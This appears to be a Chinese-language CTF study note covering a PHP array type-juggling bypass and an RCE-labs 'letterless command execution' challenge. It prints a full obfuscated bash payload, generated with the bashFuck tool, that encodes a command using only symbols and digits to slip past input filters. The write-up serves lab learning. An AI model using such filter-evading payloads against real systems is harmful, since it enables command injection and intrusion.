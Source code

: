 b[]=12345被视作数组不是数字,绕过去

$b的值显然大于1234

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741447095292-8cf72102-728f-4bec-a2ef-195aa9ee283b.png)

# PHP基础
已经写过了几份笔记,还有课件,都是知识~

![](https://cdn.nlark.com/yuque/0/2025/jpeg/50616406/1741454675237-aced9a5c-5d64-4888-92f1-b0d8331325e9.jpeg)

[PHP学习及练习](https://www.yuque.com/yangfanyuanhang-0t2rm/dbb38x/mgcgb109aq54kgnr)

[PHP语言的漏洞](https://www.yuque.com/yangfanyuanhang-0t2rm/gygw48/gyi25qn9bp6qonuw)

[PHP1.pdf](https://www.yuque.com/attachments/yuque/0/2025/pdf/50616406/1741357601274-4a73363b-515c-4c50-b29a-a02ea9ed0b98.pdf)

[PHP2.pdf](https://www.yuque.com/attachments/yuque/0/2025/pdf/50616406/1741357602678-b1a6f584-7d9f-41a6-b7cd-8b89182731d6.pdf)

# REC命令执行
[0~9题在这里](https://www.yuque.com/yangfanyuanhang-0t2rm/dbb38x/gvbosz1b0tb6gahu)

之前就部署好了![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741357756248-816ea714-dc55-4416-970d-c3af001d61eb.png)

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741357723940-59aeb6f1-c11d-4a37-bc7c-7876134dc0a7.png)

后面几题没看到**<font style="color:rgb(31, 35, 40);">get_flag.php</font>**文件,所以在nss上写了

## [RCE-labs]Level 10 - 无字母命令执行_二进制整数替换
![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741357939954-959b4471-f964-47df-b6f9-67ccd48bd445.png)

一开始没什么思路，看了一下writeup下载了一个使用的脚本

[https://github.com/ProbiusOfficial/bashFuck](https://github.com/ProbiusOfficial/bashFuck)![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741360785399-1245e6a0-6e4a-4899-8529-4306a096e60f.png)![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741361396291-5572ffcd-3756-4651-b94f-c9d10d3f9718.png)

脚本生成的一个palyload:

```php
Charset : # $ ' ( ) 0 < \ { }
Total Used: 10
Total length = 444
Payload = $0<<<$0\<\<\<\$\'\\$(($((${##}<<${##}))#${##}000${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}0${##}00${##}00))\\$(($((${##}<<${##}))#${##}0${##}000))\\$(($((${##}<<${##}))#${##}${##}${##}00${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}0))\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}${##}))\'
```
